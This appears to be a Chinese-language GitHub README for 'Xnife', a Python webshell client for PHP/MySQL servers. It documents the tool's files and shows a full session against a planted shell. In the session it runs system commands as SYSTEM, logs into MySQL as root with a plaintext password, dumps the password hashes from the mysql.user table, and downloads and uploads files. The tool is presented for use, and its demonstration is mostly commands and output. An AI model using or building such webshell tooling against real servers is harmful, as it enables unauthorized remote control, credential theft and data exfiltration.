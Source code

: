 Xnife X🔪
#author:xbillow

X刀目前只支持后端脚本为php、数据库为mysql的情况。

xnife.py    唯一可执行脚本，主要完成命令交互，调用自己编写的knifelib.py里面的类和函数实现命令执行，文件上传，文件下载，数据库管理
Payloads    payload库，所有的php代码都在这里了
knifelib.py 分3个class分别实现文件管理，命令执行，数据库管理

该程序使用交互执行的方式，可以直接执行系统命令，将文件上传下载分别定义为put和get，数据库管理定义为sql，其他命令都将作为系统命令发送到服务端执行.站在用户的角度看，就是系统命令执行的操作，只是提供了3个内部命令可以传输文件和执行sql语句,所有的sql查询都将产生一个以时间命名的csv文件来记录查询到的数据。

下面是一个例子：


-----------------------------------------------------------------------------------------------------------
PS C:\Users\Cknife> python xnife.py
useage: xnife.py <url> <password>
PS C:\Users\Cknife> python .\xnife.py http://127.0.0.1/testt.php asmin

get <remotePath>                download file from remotePath to current directory.
put <localPath> <remotePath>    uploag file from localPath to remotePath.
sql <host> <user> <passwd>      connect the database by the server.
help                            show this page.
any other system command        execute the command.

xniffe->>
xniffe->>help

get <remotePath>                download file from remotePath to current directory.
put <localPath> <remotePath>    uploag file from localPath to remotePath.
sql <host> <user> <passwd>      connect the database by the server.
help                            show this page.
any other system command        execute the command.

xniffe->>whoami
nt authority\system

[+]Execute successfully!

xniffe->>dir
 驱动器 D 中的卷是 新加卷
 卷的序列号是 B6E2-B7E5

 D:\www 的目录

2018/08/03  14:50    <DIR>          .
2018/08/03  14:50    <DIR>          ..
2018/07/25  20:53               946 1.js
2018/08/03  21:02               559 1.php
2018/07/31  19:51               343 11.php
2018/07/25  11:33               113 172.28.100.92.html
2018/07/25  21:08               943 2.js
2018/07/26  21:20               100 2.php
2018/07/25  16:21               652 add-user.php
2018/07/25  20:58                79 admin.txt
2018/08/01  20:22             2,048 Cknife.db
2018/08/01  20:22         5,178,995 Cknife.jar
2018/07/31  13:31               247 cmd.php
2018/08/01  20:22            33,200 Config.ini
2018/07/28  17:54               883 heapoverflow.html
2018/07/30  18:59            18,061 log.txt
2018/07/25  10:46               238 login.html
2018/07/25  10:46               229 login1.php
2018/07/25  16:12               527 manage-defense.php
2018/07/25  10:47               308 manage.php
2018/07/31  21:42             4,332 PHPerrlogphp_error.log
2018/08/01  14:49           543,853 Sqlmap.png.bak
2018/08/01  08:52           141,828 Sqlmap.txt
2018/08/01  19:58               127 t.py
2018/07/31  17:36                69 test.php
2018/07/27  21:58               479 test2.php
2018/08/01  16:21                34 testt.php
2018/08/03  14:54    <DIR>          yuequan
              25 个文件      5,929,193 字节
               3 个目录 112,861,536,256 可用字节

[+]Execute successfully!

xniffe->>sql
[-]Error:argument too many or too few.

get <remotePath>                download file from remotePath to current directory.
put <localPath> <remotePath>    uploag file from localPath to remotePath.
sql <host> <user> <passwd>      connect the database by the server.
help                            show this page.
any other system command        execute the command.

xniffe->>sql 127.0.0.1 root 526613
You can execute sql now.
xniffe-sql>>
xniffe-sql>>select database()

|     database()    | | |
| information_schema| | |

[+]Execute successfully!

xniffe-sql>>use mysql
Database changed.
xniffe-sql>>select database()

| database()| | |
|   mysql   | | |

[+]Execute successfully!

xniffe-sql>>select user,password,host from user

| user|                  password                |       host     | | |
| root| *1B126DAB7C185C42D26AF5ECDB0ABE292B414D34|    localhost   | | |
| root| *1B126DAB7C185C42D26AF5ECDB0ABE292B414D34| desktop-6obu4bp| | |
| root| *1B126DAB7C185C42D26AF5ECDB0ABE292B414D34|    127.0.0.1   | | |
| root| *1B126DAB7C185C42D26AF5ECDB0ABE292B414D34|       ::1      | | |

[+]Execute successfully!

xniffe-sql>>exit
xniffe->>get 1.php
[+]Download 1.php to ./1.php
xniffe->>get D:\123.png
[+]Download D:\123.png to ./123.png
xniffe->>put 1.php C:\1.php
[+]Upload to C:\1.php.
xniffe->>
xniffe->> 
xniffe->>exit
PS C:\Users\Cknife>